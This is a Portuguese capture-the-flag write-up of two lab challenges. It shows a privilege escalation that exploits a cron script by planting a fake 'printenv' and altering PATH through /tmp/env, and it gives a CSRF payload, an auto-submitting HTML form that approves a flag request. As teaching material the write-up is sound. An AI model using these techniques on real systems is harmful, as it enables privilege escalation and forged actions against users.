 # Desafios Extra/Opcionais

## British Punctuality

Explorando inicialmente o servidor, encontramos no diretório `home/flag_reader` um script `my_script.sh` que faz uso de um executável `/home/flag_reader/reader` cujo código fonte podemos ler no ficheiro `main.c`. Não temos permissões para escrever para nenhum destes ficheiros. Encontramos também  um diretório `flags` onde se encontra a flag que procuramos (`/flags/flag.txt`), no entanto, como seria esperado, não temos permissões para aceder a este diretório.  

`my_script.sh`  
```shell
#!/bin/bash

if [ -f "/tmp/env" ]; then
    echo "Sourcing env"
    export $(/usr/bin/cat /tmp/env | /usr/bin/xargs)
    rm /tmp/env
fi

printenv
exec /home/flag_reader/reader
```  

`main.c`  
```c
#include <stdio.h>
#include <unistd.h>

void my_big_congrats(){
    puts("TODO - Implement this in the near future!");
}

int main() {
    puts("I'm going to check if the flag exists!");

    if (access("/flags/flag.txt", F_OK) == 0) {
        puts("File exists!!");
        my_big_congrats();
    } else {
        puts("File doesn't exist!");
    }

    return 0;
}
```  

 
```bash
nobody@330311abc802:/home/flag_reader$ cd ../..
nobody@330311abc802:/$ ls -d -l flags
drwxr-x--- 2 root flag_reader 60 Dec 17 16:15 flags
nobody@330311abc802:/$ cd flags
bash: cd: flags: Permission denied
```  

Destas informações percebemos que para chegar à flag vamos precisar das permissões do utilizador `flag_reader` (`root` também funcionaria).  

Atendendo ao nome do desafio e há descrição *This challenge runs with a strict schedule* surge-nos a ideia do `cron`, um *job scheduller* para sistemas Unix.   

No diretório `etc/cron.d` encontramos um ficheiro `my_cron_script`.  

`my_cron_script`  
```shell
PATH=/bin:/usr/bin:/usr/local/bin

* * * * * flag_reader /bin/bash -c "/home/flag_reader/my_script.sh > /tmp/last_log"
```  

Interpretando o ficheiro percebemos que, a cada minuto, o script `my_script.sh` é corrido e o output do mesmo é escrito no ficheiro `/tmp/last_log`. Sabemos também que isto é feito com as permissões do utilizador `flag_reader`. Assim, a solução passa por encontrar e explorar uma vulnerabilidade no script que nos permita ler o ficheiro que contém a flag. No script é utilizado o comando `export`, pelo que concluimos que podemos, ao criar o ficheiro `tmp/env` alterar (por um minuto) as variáveis de ambiente do utilizador `flag_reader`. Isto é importante pois logo depois é utilizado o comando `printenv`, sem a indicação do caminho para o binário.  

```bash  
nobody@330311abc802:/$ whereis printenv
printenv: /usr/bin/printenv
```  

Juntando estas informações, podemos criar um novo ficheiro `printenv`, e adicionar o seu caminho à variável `PATH` para que seja utilizado no lugar do binário predefinido, podendo correr qualquer código shell com as permissões que queremos.

```bash
nobody@330311abc802:/tmp$ echo "PATH=/tmp:$PATH" > env
nobody@330311abc802:/tmp$ echo "cat /flags/flag.txt" > printenv
```

Depois do script ser executado basta ler o conteúdo do ficheiro `/tmp/last_log` e uma das linhas será a flag.

## Apply For Flag II

![](./screenshots/apply_for_flag2_1.png) 

![](./screenshots/apply_for_flag2_2.png) 

![](./screenshots/apply_for_flag2_3.png) 

![](./screenshots/apply_for_flag2_4.png) 

```html
<form method="POST" action="http://ctf-fsi.fe.up.pt:5005/request/<requestID>/approve" role="form">
    <div class="submit">
        <input type="submit" id="giveflag" value="Give the flag">
    </div>
</form>

<script> 
    window.onload = function(){
        document.getElementById('giveflag').click();
    } 
</script>
``` 

- Nota: neste caso `<requestID>` seria `fa9d70d9d2ed6c76ac2f46f6f203bb80b6f46dbb`.

![](./screenshots/apply_for_flag2_5.png) 

![](./screenshots/apply_for_flag2_6.png) 

![](./screenshots/apply_for_flag2_7.png) 



